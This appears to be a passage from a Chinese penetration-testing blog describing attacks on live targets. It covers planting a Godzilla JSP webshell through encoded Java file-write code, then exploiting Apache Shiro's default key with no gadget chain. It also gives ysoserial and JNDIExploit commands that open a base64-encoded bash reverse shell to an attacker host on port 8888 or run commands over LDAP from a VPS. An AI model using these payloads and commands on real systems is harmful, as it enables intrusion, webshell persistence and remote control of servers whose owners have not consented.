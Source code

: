 ![d5lhwsk0r8_WfpuDtbLpm.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152613820-1563650120.png)

dnslog探测了一下发现不出网，这里直接写入webshell

1、首先生成一个哥斯拉的jsp木马，然后进行unicode编码

![image_796oyMMBO3.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152615255-1757403492.png)

2、再把输出结果进行url编码

![image_zZUpiKMWn1.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152616225-1904740388.png)

3、payload字段如下，这里写入默认路径为 webapps/nc_web ，实战中灵活应变

```vhdl
String keyWord = URLDecoder.decode("xxxxxx（填入生成内容）xxxxxx", "utf-8");    
BufferedWriter out = new BufferedWriter(new FileWriter("/webapps/nc\_web/test.jsp"));  
out.write(keyWord);  
out.close();
```

这里直接写入哥斯拉马，连接成功

![b8xw2a-s9d_hjEIes_edE.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152617244-1462447571.png)

### shiro无依赖链利用

通过测绘平台找到一个比较偏的资产，直接访问是一个静态页面，但扫描目录后指纹识别一波发现是shiro

直接使用shiro_attack_2.2工具开冲，发现有默认key但是无利用链

![image_ylgMY223mT.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152618141-671888598.png)

可能有些人看到这里就放弃了，但这可能会错过一个利用点

shiro可以无依赖链利用，感觉有戏尝试一波，相关知识可拜读师傅的文章https://www.le1a.com/posts/a5f4a9e3

这里换用其他工具

![image-20220607115446156_b9JXMk_Qxy.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152619154-23044624.png)

通过dnslog测试有回显，这里有个注意点：使用 http://dnslog.cn/ 部分站点会拦截，可以换多个dnslog平台测试

![image_htB_EhwPH9.png](https://img2022.cnblogs.com/blog/1049983/202210/1049983-20221014152619933-734256206.png)

dnslog有回显接下来就是拿shell了，这里由于固定思维，之前遇到的都是linux系统，先入为主觉得是Linux，结果没利用成功，一开始以为是防火墙拦截，后面探测了一下目录结构，发现是windows，所以这里payload要改变一下

这里可以通过网站快速生成payload
https://x.hacking8.com/java-runtime.html

```bash
Linux：
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils1 "bash -c {echo,字段}|{base64,-d}|{bash,-i}"  
字段=bash -i >& /dev/tcp/x.x.x.x/8888 0>&1 base64后的值  
nc -lvp 端口

Windows：
java -jar JNDIExploit-1.0-SNAPSHOT.jar -i VPS地址  
java -cp ysoserial-0.0.6-SNAPSHOT-1.8.3.jar ysoserial.exploit.JRMPListener 88 CommonsBeanutils2 "ldap://VPS地址:1389/Basic/Command/Base64/d2hvYW1p"  
d2hvYW1p为命令的base64，这里是执行命令whoami
```
